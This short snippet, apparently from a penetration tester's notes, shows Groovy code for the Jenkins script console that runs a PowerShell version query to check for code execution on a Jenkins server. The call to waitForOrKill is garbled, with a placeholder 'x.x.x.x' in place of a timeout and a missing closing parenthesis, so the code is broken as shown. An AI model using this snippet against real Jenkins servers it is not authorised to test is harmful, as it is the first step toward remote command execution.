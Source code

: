 # **jenkin**

Jenking groovy code  
Testing to see if we have code execution…  
  
def sout = new StringBuffer(), serr = new StringBuffer()  
def proc = 'powershell.exe $PSVERSIONTABLE'.execute()  
proc.consumeProcessOutput(sout, serr)  
proc.waitForOrKill(x.x.x.x  
println "out> $sout err> $serr"